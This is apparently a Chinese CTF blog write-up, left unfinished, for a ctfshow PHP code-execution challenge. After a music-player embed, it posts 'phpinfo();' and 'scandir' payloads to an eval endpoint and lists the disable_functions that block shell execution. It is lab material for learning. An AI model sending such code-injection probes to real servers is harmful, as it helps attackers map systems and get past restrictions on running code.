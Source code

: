 ```yaml
---
title: ctfshow-大赛原题（未完）
date: 2022-1-11 15:47:30
update: 2022-2-14 18:00:30
author: Na0H
headimg: /img/atimg/flag_logo.gif
tags:	
- ctfshow
categories:
- ctfshow
excerpt: ctfshow-大赛原题（未完）
description:  ctfshow-大赛原题（未完）
---
```




<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width="330" height="86" src="//music.163.com/outchain/player?type=2&id=1909955412&auto=0&height=66"></iframe>

```
# 上面播放器的代码如下（仅网易云外链链接，其他播放器请自行百度）
<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width="330" height="86" src="//music.163.com/outchain/player?type=2&id=1909955412&auto=0&height=66"></iframe>
# width(宽度) ; height(高度)
# type = 歌曲(1) | 歌单(2) | 电台(3)
# id = 歌曲ID号
# auto = 自动播放(1) | 手动播放(0)
```



## 680-国赛某题

```
post code to run!
```

那么post传一个code试试：

```
code=phpinfo();
```

```
disable_functions ban掉了这些：
assert,system,passthru,exec,pcntl_exec,shell_exec,popen,proc_open,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstoped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,fopen,file_get_contents,fread,file,readfile,opendir,readdir,closedir,rewinddir
```

想到scandir一下当前目录：

```
code=var_dump(scandir('.'));
```
